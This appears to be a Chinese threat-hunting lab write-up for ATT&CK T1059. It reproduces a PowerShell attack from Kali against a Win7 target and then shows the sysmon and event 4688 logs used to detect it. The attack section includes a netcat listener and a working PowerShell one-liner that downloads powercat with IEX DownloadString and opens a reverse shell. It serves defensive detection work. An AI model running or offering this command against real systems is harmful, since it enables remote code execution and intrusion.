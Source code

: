 # T1059-win-基于白名单Powershell.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

您可以使用PowerShell.exe从另一个工具（例如Cmd.exe）的命令行启动PowerShell会话，也可以在PowerShell命令行启动新会话。从此处阅读Microsoft Windows官方网站上的更多信息。

补充说明：在高版本powershell（V5以上含V5）中，可以通过配置策略，对进程命令行参数进行记录，具体策略可参考[powershell事件](https://github.com/12306Bro/Hunting-guide/blob/master/Powershell-id.md)。同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload

下载我们本次测试中要用到的powercat，下载地址：<https://github.com/besimorhino/powercat>

#### 开启小型http服务

powercat目录下执行以下命令：

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

#### 执行监听

```bash
nc -lvp 1234
```

#### 靶机执行payload

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
```

#### 反弹shell

```bash
root@12306Br0:/# nc -lvp 1234
listening on [any] 1234 ...
192.168.126.149: inverse host lookup failed: Unknown host
connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

#win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059:<https://attack.mitre.org/techniques/T1059/>
